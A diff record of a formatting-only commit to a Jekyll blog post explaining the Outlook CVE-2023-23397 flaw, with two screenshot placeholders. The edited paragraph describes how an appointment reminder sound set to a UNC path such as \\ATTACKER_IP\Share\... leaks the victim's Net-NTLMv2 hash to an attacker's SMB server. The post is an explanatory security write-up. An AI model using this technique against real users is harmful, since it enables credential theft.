

Before and after one commit to s5dev/s5dev.github.io, a Jekyll site: the page built from _posts/2023-03-25-CVE-2023-23397-vulnerability-deep-dive-and-poc.md, in a window 1280 px wide and 900 px high, scrolled down 663 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

```diff
--- a/_posts/2023-03-25-CVE-2023-23397-vulnerability-deep-dive-and-poc.md
+++ b/_posts/2023-03-25-CVE-2023-23397-vulnerability-deep-dive-and-poc.md
@@ -16,7 +16,7 @@
 
 > TLDR: When the Malicious scheduled appointment email sent by attacker lands in the Victims Outlook Client, the client leaks the Net-NTLMv2 Credential Hash to the Attacker controlled SMB Server with Zero Interaction on Victim side
 
-Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, `\\ATTACKER_IP\Share\Sounds\reminder.wav` which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the `victim machine to Attacker controlled UNC Path` to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and `attacker controlled SMB server` actually leaks the victims `Net-NTLMv2 Credential hash` to the attacker.
+Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, `\\ATTACKER_IP\Share\Sounds\reminder.wav` which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the victim machine to Attacker controlled UNC Path to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and attacker controlled SMB server actually leaks the victims Net-NTLMv2 Credential hash to the attacker.
 
 ![CVE-2023-23397-Sequential-diagram-to-understand-exploit](/assets/media/CVE-2023-23397-sequential-diagram.png)
 
```
